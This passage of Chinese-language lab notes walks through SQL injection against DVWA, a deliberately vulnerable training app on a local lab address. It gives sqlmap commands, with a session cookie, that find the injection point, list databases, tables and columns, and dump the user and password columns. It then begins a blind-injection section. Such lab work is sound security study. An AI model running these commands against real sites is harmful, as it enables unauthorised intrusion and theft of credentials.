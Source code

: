2.获取cookie

![截图录屏_选择区域_20210127150923](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127150923.png)

3.使用sqlmap，查找注入点

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli/" --data "id=1&Submit=Submit" --cookie "security=high; PHPSESSID=prasunu4qhs3eutb08uj24r3p0"
```

![截图录屏_选择区域_20210127151230](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127151230.png)

4.获取数据库

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli/" --data "id=1&Submit=Submit" --cookie "security=high; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch --dbs
```

![截图录屏_选择区域_20210127151354](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127151354.png)

5.获取dvwa中的表

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli/" --data "id=1&Submit=Submit" --cookie "security=high; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa --tables
```

![截图录屏_选择区域_20210127151524](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127151524.png)

6.获取users表中的列

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli/" --data "id=1&Submit=Submit" --cookie "security=high; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa -T users --columns
```

![截图录屏_选择区域_20210127151703](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127151703.png)

7.获取user和password的信息

```
D:\sqlmap>sqlmap.py -u "http://192.168.120.129/dvwa/vulnerabilities/sqli/" --data "id=1&Submit=Submit" --cookie "security=high; PHPSESSID=prasunu4qhs3eutb08uj24r3p0" --batch -D dvwa -T users -C user,password --dump
```

![截图录屏_选择区域_20210127151827](/home/garlic/Desktop/笔记/图片/截图录屏_选择区域_20210127151827.png)

## SQL盲注

### low

1.low级别输入id，验证输入的id是否存在数据库
